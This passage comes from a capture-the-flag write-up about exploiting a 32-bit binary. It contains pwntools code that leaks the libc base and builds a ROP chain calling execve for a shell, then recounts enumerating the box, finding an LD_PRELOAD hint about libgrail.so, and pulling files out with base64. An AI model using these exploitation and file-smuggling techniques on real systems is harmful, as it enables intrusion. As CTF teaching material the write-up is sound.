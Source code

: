 ```python


libc_base = u32(r.recv(4)) - 0x0001aa50 # offset of __libc_start_main

log.info(f"leaked libc_base @ {hex(libc_base)}")


execve = libc_base + 0x000c0470
mprotect = libc_base + 0x000f5940
read = libc_base + 0x000e7ea0

# the second rop chain is created with knowledge of libc base
# so no need to do anything tricky with read
pivot_chain_2 = ROP(exe)
pivot_chain_2.call(execve, [0x0804b274, 0, 0]) # location of /bin/bash in bss
log.info("created second pivot chain")
log.info(pivot_chain_2.dump())
r.send(pivot_chain_2.chain())
r.send("whoami")

r.interactive()
```

As some careful enumeration of the box showed (very careful because I got about 10 seconds before the timeout kicked me) it was missing several important binaries (/bin/sh, cat, etc). It did, luckily, have ls which showed me the contents of the working directory. 

```
bin
dev
exec_8c24169a11a765ad7302322dc13b8917.bin
hint.txt
lib
lib32
lib64
log
usr
```

The most interesting one is hint.txt -- I had assumed that getting a shell wouldn't be sufficient because there are mentions of having to exploit multiple binaries and calling the symbol "holy_grail" which did not exist in the binary. The text of this hint tells us that it is linked with "libgrail.so" using LD_PRELOAD. 


```
Congrats! You we're supposed to find this!

Here's your hint

Your binary was invoked like this

LD_PRELOAD=/lib32/libgrail.so ./bin
```
This likely contains the aforementioned "holy_grail" symbol which needs to be called to win. I exfiltrated it with base64 (love that binary, dropping static binaries on boxes you really aren't supposed to have them with base64 is a quality strat) and found the following function. 
